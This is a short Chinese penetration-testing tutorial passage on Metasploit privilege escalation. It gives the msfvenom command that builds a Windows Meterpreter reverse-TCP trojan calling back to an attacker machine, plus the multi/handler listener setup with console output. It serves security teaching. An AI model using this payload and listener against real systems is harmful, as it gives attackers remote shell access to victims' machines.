 ## 4.5. MSF全自动溢出提权

如果对MSF工具不熟悉的可以参考以下的连接进行学习，这个只是上篇，在博客主页中能够找到下篇。这里使用的环境是Windows7，由于Windows2012上没有补丁信息，就会导致无法识别的情况。

MSF工具使用：https://blog.csdn.net/weixin_44268918/article/details/128775978?spm=1001.2014.3001.5501

### 4.5.1. 监听操作

#### 4.5.1.1. 生成木马

通过msfvenom生成一个木马，然后将木马上传至服务器中，即可。

```
命令：msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=3333 -f exe -o msf.exe
LHOST=kali地址
LPORT=自定义设置一个端口
```

<img src="assets/botig5j21eJkNqD.png" alt="image-20230316094456638" style="zoom: 67%;" />

#### 4.5.1.2. 监听木马

```
msf6 > use exploit/multi/handler    
[*] Using configured payload generic/shell_reverse_tcp   
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp    ##配置监听TCP
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 3333    ##配置监听端口
lport => 3333
msf6 exploit(multi/handler) > set lhost 0.0.0.0  ##配置监听地址，你也可以设置监听本机地址如192.168.10.20
lhost => 0.0.0.0
msf6 exploit(multi/handler) > run  ##开始监听
```

<img src="assets/Wmuj7D1NqY635x4.png" alt="image-20230316095121748" style="zoom: 80%;" />
